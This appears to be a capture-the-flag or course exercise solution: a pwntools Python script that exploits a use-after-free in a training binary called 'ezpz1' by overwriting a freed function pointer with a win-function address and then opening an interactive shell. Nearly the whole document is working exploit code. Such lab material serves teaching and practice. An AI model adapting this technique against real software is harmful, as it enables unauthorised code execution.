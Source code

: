 ## Attack Code

Here’s the Python exploit code using `pwntools`:

```
python
from pwn import *

context.arch = 'amd64'

# Setup remote or local process
if args.R:
    p = remote('6447.lol', 8002)
elif args.H:
    p = process('./ezpz1')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
    p = gdb.debug('./ezpz1',
                  gdbscript='''
                      b *ask_question
                      b *create_question
                      b *set_question
                      b *print_question
                      b *delete_question
                      c
                  ''')

# Address of win function
win_addr = 0x4015b9

# Functions to interact with the binary
def create_question():
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"C")
    p.recvuntil(b"ID ")
    return p.recvline().strip()

def set_question_payload(qid, payload):
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"S")
    p.sendlineafter(b"Enter question id: ", qid)
    p.sendlineafter(b"Enter your question: ", payload)

def del_question(qid):
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"D")
    p.sendlineafter(b"Enter question id: ", qid)

def ask_question(qid):
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"A")
    p.sendlineafter(b"Enter question id: ", qid)

# Exploit Steps
qid0 = create_question()  # Step 1: Create initial question
del_question(qid0)  # Step 2: Delete it to free memory
qid2 = create_question()  # Step 3: Recreate question, reusing memory
set_question_payload(qid2, p64(win_addr))  # Step 4: Overwrite function pointer with win address
ask_question(qid0)  # Step 5: Trigger exploit by asking deleted question

# Interact with the shell
p.interactive()
```
